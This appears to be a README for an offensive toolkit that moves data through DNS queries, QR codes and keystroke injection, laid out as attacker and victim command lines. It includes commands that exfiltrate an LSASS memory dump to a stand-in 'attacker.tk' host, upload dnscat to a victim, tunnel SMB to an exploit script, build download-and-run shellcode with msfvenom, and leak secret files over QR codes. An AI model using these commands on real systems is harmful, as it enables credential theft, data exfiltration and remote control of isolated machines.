 # GPL

Correct `yourzone.tk`.

### Infiltration (File upload)

Change loops count (ex. 1190) in `dns_download.vbs` before running.
```
attacker> sudo ./dns_upload.py --udp --file dnscat.exe
victim> cscript.exe dns_download.vbs
victim> ./dns_download.sh attacker.tk 1190 /tmp/dnscat
```

### Exfiltration (File download)

```
attacker> sudo ./dns_download.py --udp --file lsass.mdmp
victim> cscript.exe dns_upload.vbs c:\path\to\lsass.mdmp attacker.tk
```

### Dns-to-Tcp [WIP]

```
victim> set TIMEOUT=1000
victim> set DNS_SIZE=50
victim> dns_tcp.exe c 127.0.0.1 445
attacker> sudo ./dns_tcp.py --udp --port 53 -l 445
attacker> exploit.py localhost 445
```

### Dns-Shellcode
It can be used as dns-shellcode alternative for exploiting isolated hosts:
```
msfvenom -p windows/exec CMD=$(cat dns_download_exec.bat) -f raw -o dns_shellcode
msfvenom -p linux/x86/exec CMD=$(cat dns_download_exec.sh) -f raw -o dns_shellcode
```

### QR exfiltration (File upload)
For RDP (windows):
```
cl /c lib\qrcodegen.c
cl /c qr_upload.c
link /out:qr_upload.exe qr_upload.obj qrcodegen.obj
chcp 866
set TIMEOUT=1000
set SIZE=100
qr_upload.exe c:\path\to\secret.bin
```
For telnet (routers, etc):
```
gcc -c lib/qrcodegen.c
gcc -c qr_upload.c
gcc qr_upload.c qrcodegen.o -o qr_upload
setterm -background white
setterm -foreground black
TIMEOUT=1000 SIZE=100 ./qr_upload /path/to/secret.bin
```
Attacker side:
`./qr_download.py`

### Sendkeys (File download)
If nothing works you can always fill text (universal):
```
setxkbmap us
cat /tmp/test.txt | ./text_send.sh
cat /tmp/test.bin | base64 | ./text_send.sh
```
